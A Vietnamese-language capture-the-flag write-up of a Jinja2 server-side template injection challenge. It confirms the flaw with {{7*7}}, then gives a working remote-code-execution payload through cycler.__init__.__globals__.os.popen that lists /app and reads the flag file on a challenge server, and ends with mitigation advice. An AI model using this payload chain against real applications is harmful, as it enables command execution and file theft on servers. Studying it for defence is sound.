



# Template Tide — Writeup

| | |
|---|---|
| **Challenge** | Template Tide (10 điểm) |
| **Event** | RSTCON 2026 |
| **Author** | Veryyes |
| **Category** | Web — Server-Side Template Injection (SSTI) |
| **Target** | `http://18.215.143.250:5001` |
| **Flag** | `rstcon{ssti_rolls_in_with_the_t1de}` |

> *"The hydro dashboard has a friendly little tide report that greets you by name. It is a bit too friendly with what you give it."*

Đoạn mô tả đã gần như nói thẳng lỗ hổng: report "chào theo tên" và ứng xử "quá thân thiện" với input người dùng → **SSTI (Server-Side Template Injection)**.

---

## 1. Recon

Trang chủ là một dashboard thủy triều (RST Hydro · Savannah) với form **"Personalize this report"** gửi GET tới `/` với tham số `?name=`:



Điểm đáng chú ý nhất nằm ngay dưới form — trang tự tiết lộ luôn template đang dùng:

```html
<div class="embed">
  <span class="embed-label">Report template</span>
  <code>Tide report for {{ name }}</code>
</div>
```

Cú pháp `{{ name }}` là **Jinja2** (Flask). Câu hỏi quan trọng: server render template này *trước* khi trả về (khi đó payload của ta cũng bị render → SSTI), hay chỉ hiển thị giá trị đã escape? Thử là biết ngay.

## 2. Xác nhận SSTI

Test kinh điển với biểu thức toán học:

```
http://18.215.143.250:5001/?name={{7*7}}
```

Kết quả hiển thị trên heading: **`Tide report for 49`** — biểu thức được **thực thi phía server**, không phải hiển thị nguyên văn:


> Cách phân biệt engine nhanh: `{{7*7}} = 49` → Jinja2 (Twig cũng cho 49); `{{7*'7'}} = 7777777` → Jinja2 (Twig báo lỗi). Ở đây không cần thêm bước nào nữa — RCE luôn.

## 3. Từ SSTI đến RCE

Trong Jinja2 (Flask), sandbox mặc định chặn truy cập trực tiếp `config`, `self`,... nhưng vẫn thoát được qua các object có sẵn trong môi trường template. Một trong những chain phổ biến nhất là đi qua **`cycler`** — một class tiện ích của Jinja2 luôn tồn tại trong môi trường template — leo lên `__globals__` để lấy module `os`:

```jinja2
{{ cycler.__init__.__globals__.os.popen('<lệnh>').read() }}
```

Chain đầy đủ:

```
cycler → __init__ → __globals__   (globals của jinja2.utils)
                    → os          (module os được import sẵn trong đó)
                    → popen(cmd)  → .read()   → in kết quả vào template
```

Liệt kê thư mục `/app`:

```
http://18.215.143.250:5001/?name={{cycler.__init__.__globals__.os.popen('ls /app').read()}}
```



Thấy ngay `flag.txt` nằm trong `/app`.

> **Lưu ý khi gửi payload bằng curl:** cần URL-encode (ví dụ `%7B%7B` cho `{{`, `%20` cho space). Lần đầu mình gửi payload thô bằng curl, request bị rớt không trả về gì; encode đúng là chạy ngay.

## 4. Lấy flag

```
http://18.215.143.250:5001/?name={{cycler.__init__.__globals__.os.popen('cat /app/flag.txt').read()}}
```



```
rstcon{ssti_rolls_in_with_the_t1de}
```

---

## Tóm tắt các bước

1. Nhận diện SSTI từ gợi ý đề + template `{{ name }}` lộ ngay trên trang.
2. `?name={{7*7}}` → `49`: xác nhận Jinja2 SSTI.
3. Chain `cycler.__init__.__globals__.os.popen(...).read()` → RCE.
4. `ls /app` → thấy `flag.txt` → `cat /app/flag.txt` → flag.

## Bài học & cách phòng chống

- **Nguyên nhân gốc**: input người dùng được **nội suy trực tiếp vào chuỗi template** rồi mới render (`render_template_string("Tide report for " + name)`) thay vì truyền như **dữ liệu** (`render_template("tpl.html", name=name)`). Khi truyền đúng cách, Jinja2 sẽ escape giá trị thay vì thực thi.
- Nếu buộc phải dùng `render_template_string` với input không tin cậy, hãy tách phần động thành biến: `render_template_string("Tide report for {{ n }}", n=name)`.
- **SSTI không chỉ là lỗi hiển thị**: với Jinja2, chỉ cần một escape payload như `cycler` là attacker có RCE đầy đủ trên server — đọc file, reverse shell, pivot nội bộ.
- Bài này cũng minh họa việc **tự lộ thông tin** (template hiển thị công khai) giúp attacker xác định engine trong một request duy nhất.
